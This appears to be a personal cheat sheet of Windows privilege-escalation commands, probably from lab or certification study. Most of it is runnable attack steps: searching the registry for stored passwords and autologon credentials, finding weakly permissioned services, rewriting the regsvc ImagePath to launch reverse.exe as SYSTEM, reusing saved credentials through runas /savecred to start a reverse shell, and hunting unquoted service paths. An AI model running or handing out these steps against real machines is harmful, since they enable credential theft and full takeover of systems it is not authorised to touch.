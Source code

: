 ## Registry keys containing passwords queries:

[[Windows-Registry]]
```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Weak registry permissions
```
sc qc regsvc # Find weak registry permission, a service that runs with SYSTEM privileges
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc # sysinternals
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv "Everyone" * /accepteula
accesschk.exe -uwcqv "Users" * /accepteula
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f 
net start regsvc
```

## Finding services with modifiable registry values
```powershell
sc qc # query service configuration
```
Importantly the `BINARY_PATH_NAME` parameter is executed by `SERVICE_START_NAME`.
All service configurations are `HKLM\SYSTEM\CurrentControlSet\Services\`

```powershell
# accesschk is sysinternals
# use icalcs
icacls C:\vulnerable\service.exe
# IF group permissions allow for modify permission (M) on a the service executable -> overwrite it with a payload of choice.
accesschk.exe -kvqwsu "Authenticated Users" hklm\system\currentcontrolset\services /accepteula
accesschk.exe -kvqwsu "Users" hklm\system\currentcontrolset\services /accepteula
accesschk.exe -kvqwsu "Everyone" hklm\system\currentcontrolset\services /accepteula
```

## Saved Credentials:
```cmd
cmdkey /list                                    list saved credentials
runas /savecred /user:admin reverse_shell.exe   query /savedcred
```

Autologon Credentials
```powershell
reg query HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon 
```

## Password Mining Configuration Files
```
# Look for Unattend.xml used by sysadmins to setup systems, should be deleted.
# Finding unquoted service path vulnerabilities
wmic service get name,displayname,pathname,startmode | Sort
#NEED A powershell command to find the unquoted path pipe
sc qc [service]        #  to query binary path service
```
